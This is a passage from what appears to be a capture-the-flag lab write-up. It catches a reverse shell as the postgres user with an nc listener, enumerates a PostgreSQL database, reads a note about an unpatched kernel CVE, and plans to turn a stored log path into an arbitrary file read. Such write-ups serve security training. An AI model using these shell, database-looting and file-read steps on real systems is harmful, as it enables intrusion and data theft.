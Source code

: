 
and we got the shell on postgres 

```bash
$ nc -nlvp 4242
Connection from 10.129.231.37:57338
bash: cannot set terminal process group (33): Inappropriate ioctl for device
bash: no job control in this shell
postgres@dca1087e26af:~/data$
```

Let's connect to the database using the following command

```bash
psql -U neohub -d neohubdb
```

Now that we're connected, let's explore the database structure by listing all the tables. We can use the following query to do so:

```sql
SELECT table_name
FROM information_schema.tables
WHERE table_schema = 'public';
```

```
 tunnels
 notifications
 blueprints
```

We've identified three tables; we're already familiar with the blueprint table from the neoprint system. Now, let's examine the notifications table for further details.

```sql
SELECT * FROM notifications;
 id |                          notification_text                          | notification_date | is_resolved
----+---------------------------------------------------------------------+-------------------+-------------
  1 | Patch the old tunneling API kernel it's vulnerable to CVE-2022-3910 | 2024-05-06        | f
  2 | Update all workstations by EOD Friday                               | 2024-05-06        | f
  3 | Review quarterly IT security training                               | 2023-10-01        | f
  4 | Replace expired SSL certificates for external services              | 2023-09-15        | t
(4 rows)
```

It appears that the old tunneling server is vulnerable to a kernel bug. Given that the application also features functionality to display maintenance logs, and now that we have access to the database, we might be able to escalate this to read arbitrary files.

```sql
SELECT * FROM tunnels WHERE id=1;
 id |    name     |                                                        details                                                         |                    log_path
----+-------------+------------------------------------------------------------------------------------------------------------------------+-------------------------------------------------
  1 | Main Tunnel | {"location":"Sector 5","status":"Operational","safetyFeatures.emergencyExits":3,"safetyFeatures.fireExtinguishers":10} | ./logs/5fa41a58-80f2-4d04-86dd-1a8ac3ea452d.log
(1 row)
```

